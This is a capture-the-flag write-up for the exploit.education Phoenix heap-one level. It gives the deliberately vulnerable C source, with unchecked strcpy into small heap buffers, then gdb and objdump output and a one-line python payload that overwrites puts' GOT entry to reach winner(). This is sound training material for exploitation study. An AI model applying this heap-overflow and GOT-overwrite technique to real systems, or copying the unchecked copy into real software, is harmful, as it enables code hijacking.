 # Heap-One

## Code
```
/*
 * phoenix/heap-zero, by https://exploit.education
 *
 * Can you hijack flow control?
 *
 * Which vegetable did Noah leave off the Ark?
 * Leeks
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

struct heapStructure {
  int priority;
  char *name;
};

int main(int argc, char **argv) {
  struct heapStructure *i1, *i2;

  i1 = malloc(sizeof(struct heapStructure));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct heapStructure));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}

void winner() {
  printf(
      "Congratulations, you've completed this level @ %ld seconds past the "
      "Epoch\n",
      time(NULL));
}"
```

## Solution

To resolve this we need to know the distance between i1->name and the pointer of i2->name, by reading the heap we can calculate it that it is 20:

```
After the 2 strcpy do
(gdb) x/100x $eax-48
0xf7e69008:     0x00000001      0xf7e69018      0x00000000      0x00000011
0xf7e69018:     0x41414141      0x00000000      0x00000000      0x00000011
0xf7e69028:     0x00000002      0xf7e69038      0x00000000      0x00000011
0xf7e69038:     0x42424242      0x00000000      0x00000000      0x000fffc1
```
The distance between 0xf7e69018 and 0xf7e6902c is 20 in decimal.

Now we need to retrive the address of the winning function

```
objdump -d heap-one | grep winner
0804889a <winner>
```

Then we need the address of the PUTS in the plt.

```
0x8048883 <main+174>       call   0x80485b0 <puts@plt>
(gdb)   disas 0x80485b0
Dump of assembler code for function puts@plt:
   0x080485b0 <+0>:     jmp    DWORD PTR ds:0x804c140
   0x080485b6 <+6>:     push   0x28
   0x080485bb <+11>:    jmp    0x8048550
End of assembler dump.

```
It is at 0x804c140.

The script will be:

```
./heap-one $(python -c 'import struct; print("A"*20+struct.pack("<I",0x804c140)+" "+struct.pack("<I", 0x0804889a))')
```
